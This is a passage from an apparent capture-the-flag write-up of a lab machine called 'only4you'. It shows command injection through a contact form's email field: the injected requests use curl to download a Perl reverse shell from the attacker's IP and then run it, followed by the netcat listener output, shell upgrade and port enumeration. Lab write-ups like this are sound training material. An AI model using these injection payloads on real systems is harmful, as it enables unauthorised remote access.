 3. We want to inject our command in the system, to do that you want to add that semicolumn after the domain and then your command as follows:

```

name=bla&email=itay%40gmail.com%3bcurl+http%3a//10.10.14.133/perl-reverse-shell.pl+-o+/dev/shm/perl-reverse-shell.pl&subject=lsla&message=hello

``` 
As you can see I'm adding a perl reverse shell to the system so after I follow the request I'll do another one and execute it.

```

name=bla&email=itay%40gmail.com%3bperl+/dev/shm/perl-reverse-shell.pl&subject=lsla&message=hello

```
**Note: don't forget to open an http server before running those two commmands and a netcat listener.**

And Boom! we got ourselfs a shell:

```

$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.10.14.120] from (UNKNOWN) [10.10.11.210] 41416
 16:37:52 up 1 min,  0 users,  load average: 0.83, 0.48, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux only4you 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@only4you:/$ 

```

Great so now we got a shell. Lets start enumerating. 

### Port Forwarding

As I enumerated the machine I saw three ports that I didn't see with my nmap:

```

www-data@only4you:/$ netstat -tunlp | grep "LISTEN"
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1038/nginx: worker
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -

```
The ports are 7474, 3000, 8001. Ok so 3000 and 8001 are a multiple service port so we don't know what it's for but 7474 is interesting after a little googling I managed to find the port 7474 is the neo4j brower http port, so lets forward all 3 and see what's interesting.
